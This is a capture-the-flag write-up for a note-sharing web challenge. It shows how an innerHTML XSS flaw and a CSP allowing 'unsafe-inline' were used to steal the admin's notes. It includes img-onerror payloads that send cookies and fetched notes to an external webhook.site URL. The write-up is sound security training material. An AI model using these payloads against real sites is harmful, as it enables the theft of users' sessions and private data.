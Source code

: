 # Take Note of This [972 Points] - 13 Solves

```
After getting three quotes and totally not picking the lowest, we found that the application delivered to us has some...critical flaws. However, we were assured that there is no way for a malicious actor to read or exfiltrate the flag that the admin stored in a note.

In other completely unrelated news, come try out our application! For a short time, you can share your amazing notes with the admin.
http://chals.ctf.sg:30101/login
```

## 

## Initial Analysis

Visiting the site, we are greeted with a login page:

![](1.jpg)

There is no need to try and break it as we can easily register an account and take a look at what's inside.

Looking at the inside, we see a page where we can "Add a note". Adding a note also reveals a `Share` option, as well as the link to view the note you just added

![](2.jpg)

Let's take a look at the front-end Javascript to figure out what is going on. I quickly found a `main.js` in the page source and downloaded it to have a better look:

We will immediately notice something interesting in the following code:

```javascript
const share = document.createElement("span");
      share.className = "share";
      share.innerText = "Share";
      share.title = "Share your fabulous note with the admins";
      share.addEventListener("click", () => {
        display("");
        req(`/api/share/${i}`, "POST").then((data) => { //use this endpoint
          if (data.success) {
            display("Note shared!", "primary");
          } else {
            display("An error occured...", "danger");
          }
        });
      });
```

This suggests that it is **most likely an XSS challenge** since we are able to "share something with the admin".



## Achieving XSS

Let's first look for a place where we can launch an XSS attack.  

Looking around, we quickly realised that `loadNote()` is vulnerable to XSS since it sets the contents of the note via `innerHTML`:

```javascript
function loadNote() {
  const noteId = /^\/note\/([0-9]+)$/.exec(document.location.pathname)[1]; //gets id from address (e.g 3 from /note/3)
  req(`/api/note/${noteId}`, "GET").then((data) => {
    if (data.success) {
      document.querySelector("#note-id").innerHTML = noteId;
      document.querySelector("#note").innerHTML = data.note;
    }
  });
}
```

However, if we try the payload `<script>alert(1)</script>`, it will **not trigger**. 

This is most likely as the site has a **Content-Security Policy (CSP) set**, and we can find it in the HTTP headers:

```
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' 'unsafe-inline'
```

- `script-src 'self'` blocks any **scripts** that are **not from the origin**
- `default-src 'self'` blocks any content from **external sources** (i.e, no `fetch` from a different domain)
- `object-src 'none'` blocks Flash player etc.
- However, what is interesting is the `unsafe-inline` option

We can use Google's [CSP Evaluator](https://csp-evaluator.withgoogle.com/) to quickly check the CSP of a site, and sure enough, Google screams back at us over `unsafe-inline`:

![](3.jpg)

We can quickly find an inline XSS payload from the internet, such as this 1:

```html
<img src=1 onerror="alert(1)"></img>
```

And sure enough, it worked on the challenge site.

Next up, we have to somehow get information off the site, which is a challenge since `default-src` is set to `self`, which prevents us from making requests to our server. Thankfully, as I wrote in [DiceGang Babier CSP](https://github.com/IRS-Cybersec/ctfdump/tree/master/DiceGang%202021/web-Babier%20CSP) (another XSS challenge), we can overcome this using `location.href` to redirect the user along with their cookies.

Hence our payload now is:

```html
<img src=1 onerror="location.href='https://webhook.site/0c126fae-0187-4050-add1-4269dae9e427?data='+document.cookie"></img>
```

And nowww.... wait, there's nothing?

Trying it on my self, I can see that the request is made, but there didn't seem to be any data in it. A bit of googling revealed that the `cookies` were most likely **`httpOnly`**, which **prevents Javascript from accessing them**.

```
Set-Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoid2FkZGxlMiIsImlhdCI6MTYxNTcxNTgzNX0.ZdbhmD-1vPlILo8WhckPV4dd5-aoesrROxN-k59U0Bw; Path=/; HttpOnly
```

*Oh, No!*

Thankfully, our goal isn't to obtain the admin cookies, but to get the admin notes. We can do this by using `req()` (just like in the source code) to make a request on the admin's behalf along with their cookies to `/api/notes`, before sending it to our site. Hence our payload is:

```html
<img src=1 onerror="req(`/api/notes`, 'GET').then((data) => {location.href='https://webhook.site/0c126fae-0187-4050-add1-4269dae9e427?data='+encodeURIComponent(data.notes)})"></img>
```

<u>**Note:**</u> Due to the way the challenge was deployed, using an absolute path will not work. Thankfully, the organisers quickly debugged this for me.

And we obtain the flag:

```
CTFSG{g3nEr1c_aPp}
```





------

## Learning Points

- Bypassing CSP `default-src` using `location.href`
- `httpOnly` cookies can still be used by using `req()` instead of `fetch()`